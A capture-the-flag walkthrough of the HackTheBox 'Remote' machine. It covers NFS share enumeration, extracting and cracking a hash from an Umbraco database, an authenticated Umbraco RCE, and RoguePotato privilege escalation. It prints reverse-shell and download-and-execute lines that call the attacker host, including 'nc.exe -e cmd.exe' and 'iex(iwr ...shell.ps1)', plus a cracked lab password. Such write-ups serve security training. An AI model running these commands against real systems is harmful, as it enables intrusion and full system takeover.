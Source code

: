 # Remote [HTB]()
![remote-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/remote-01.png)

## Recon

Let's start enumerating the target with:

```bash
nmap -p- --min-rate 10000 remote.htb
```

After we get the ports we can query the service verisons with:

```bash
nmap -p 21,80,111,135,139,445,2049,5985,47001 -sCV remote.htb -oN nmap.result # I Left out some RPC related ports 
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/nmap-res-02.png)

We have the following:

+ A Microsoft FTPd server on port 21.
+ An HTTP server on port 80.
+ An rpcbind endpoint on port 111.
+ An rpc endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ A possible NFS share on port 2049.
+ Two HTTPAPI ports at 5985 & 47001.

Quite a large attack surface. It appears that the FTP server is allowing anonymous logins so let's start with that. Afterwards, we can take a look at the NFS share on port 2049, as the NFS protocol doenst have any authintication or authorization. Then we can take a look at the SMB and HTTP servers. 

## FTP Port 21

After connecting anonymously to the server I ran `ls` to list out the contents but it came out empty:

![ftp-empty-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ftp-empty-03.png)

I then tried to download any possible files from the server using this one liner:

```bash
wget -m ftp://anonymous:anonymous@remote.htb
```

But this came out empty as well so i decided to move on to the NFS share. 

## NFS Port 2049 & 111.

If we list out the rpc info using `rpcinfo remote.htb`:

![rpcinfo-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/rpcinfo-04.png)

We can see that we have `nfs` listening on `0.0.0.0`, which means we have a network share out there. We can verify this with 

```bash
showmount -e remote.htb
``` 

![showmount-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/showmount-05.png)

We have `/site_backups` publicly avialbale to anyone. We can mount this on our local machine with:

```bash
mkdir /mnt/remote.htb
mount -o rw,vers=2 remote.htb:/site_backups /mnt/remote.htb
```

If we `cd` into this directory and run `ls` we can the following:

![dir-tree-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/dir-tree.png)

Looks like a backup directory tree of an IIS server. We also see the word `Umbraco` here as well. [Umbraco](https://en.wikipedia.org/wiki/Umbraco) is an open-source CMS platform built on Microsoft .NET framework and designed to work on IIS servers.  

I started by taking a look at `Web.Config`. On line 44 I found the version number:

![ver-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/ver-07.png)

I searched online and found an [RCE exploit](https://github.com/Jonoans/Umbraco-RCE) for this version, but we need to be authinticated to pull it off. So i decided to keep looking around the filesystem. 

I started to dig into every file, but I was rather lost, so I to search online for information about juicy Umbraco files. And that's where I found [this post](https://our.umbraco.com/forum/core/general/47400-How-does-Umbraco-store-its-data#:~:text=The%20content%20data%20is%20stored,file%20at%20%2FApp_Data%2Fumbraco.) that mentioned a database at `App_Data/Umbraco.sdf`. So I decided to look for ways to open this file.

I tried to use online sites to convert it to `csv` as well as different forms of databases like `MySQL` and `MariaDB` but nothing worked. I also tried `christianhelle`'s [sqlcequery](https://github.com/christianhelle/sqlcequery) tool to open sdf files but it didnt work either. 

So instead I ran `strings` on it to see what I can extract:

![strings-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/strings-08.png)

This looks important. I see two user accounts here, `admin` and `smith`, as well as two hashing algorithms, `SHA-1` and `HMAC-SHA256`. I decided to go for the admins password first. 

I cracked it with the following syntax:

```bash
hashcat -m 100 -a 0 "b8be16afba8c314ad33d812f22a04991b90e2aaa" rockyou.txt
```
![pass-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/pass-09.png)

The admin's password is `baconandcheese`. Lets try to log in. 


## HTTP Port 80.

At first I opend the site at `http://remote.htb` :

![site-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/site-10.png)

Ok, not much here. Let's run a directory scan with:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://remote.htb/FUZZ -e .cgi,.js,.txt,.xml,.aspx
```

![install-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/install-11.png)

This sounds interesting and it also gave us a redirect. Lets see where this leads:

![login-page-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/login-page-12.png)

It redirected us to `http://remote.htb/umbraco/#/login`. At first I tried authenticating with `admin : `baconandcheese` but this failed. I tried different usernames until I found that `admin@htb.local` works:

![admin-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/admin-13.png)

This username was also mentioned later down in the `Umbraco.sdf` file. 

## Initial-Access Exploit

After reveiwing the [source code](https://github.com/Jonoans/Umbraco-RCE/blob/master/exploit.py#L76) of the exploit for a bit, it's seems ready to go. We just need to install the exploit with:

```bash
git clone https://github.com/Jonoans/Umbraco-RCE
cd Umbraco-RCE
pip install -r requirements.txt
chmod +x exploit.py
```

Then we can run the exploit with:

```bash
./exploit.py -u admin@htb.local -p baconandcheese -w http://remote.htb/ -i 10.10.14.39
```
Where: 

+ `-u` and `-p` are for the usrename and password values. 
+ `-w` is for the target url.
+ `i` is the loacl IP for the reverese shell. 


Which gives us initial access to the target:

![shell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-14.png)

However this shell gave me lots of issues, it was quite unstable. So I hosted `nc.exe` on my Kali machine via a python web server, downloaded it to the target and connected back to my kali with:

```cmd
cd c:\\windows\temp
certutil -urlcache -f http://10.10.14.39/nc.exe nc.exe
.\nc.exe -e cmd.exe 10.10.14.39 443
```

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/shell-15.png)

## Privilege Escalation

After landing on the machine, I started hunting for quick wins. First, I looked at our user's privileges with:

```cmd
whoami /priv
```

![privs-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/priv-16.png)

Looks like we have the `Impersonate` privilege enabled which means we can try to pull off a potato attack. However if we take a look at the target OS we will see it is running a 2019 Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![os-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/os-17.png)

So `JuicyPotato` wont work here. Instead we can use [RoguePotato](https://github.com/antonioCoco/RoguePotato) which can download a compiled version [here](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe). 

Once we have Rogue-Potato on our Kali, we need to transfer it over to the target using a python server:

```bash
python3 -m http.server 80
```

Now we can download Rogue-Potao to the target with:

```cmd
certutil -urlcache -f http://10.10.14.39/RoguePotato.exe rp.exe
```

Next, we need to setup `socat` to run on port 135 on our Kali machine and redirect it back to `remote` on port 9999:

```bash
socat tcp-listen:135,reuseaddr,fork tcp:10.129.231.183:9999
```

Now we can execute `Rogue-Potato`. At first I tried executing `nc` to get a shell:

```cmd
.\rp.exe -r 10.10.14.39 -e "c:\\Windows\\Temp\nc.exe -e cmd.exe 10.10.14.39 9001" -l 9999
```

Rogue-Potato succesfully executed, but I didnt get a shell. So instead I decided to go for a different approach with nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script. Make sure to invoke the script at the end:

![invoke-17.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/invoke-17.5.png)

I hosted this file with a python server, and started my listener with:

```bash
rlwrap nc -lnvp 9001
```

Then, I executed Rogue-Potato once again with:

```cmd
.\rp.exe -r 10.10.14.39 -e "powershell -c iex( iwr http://10.10.14.39/shell.ps1 -UseBasicParsing)" -l 9999
```

This gave me a shell as the SYSTEM:

![root-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Remote/img/root-18.png)
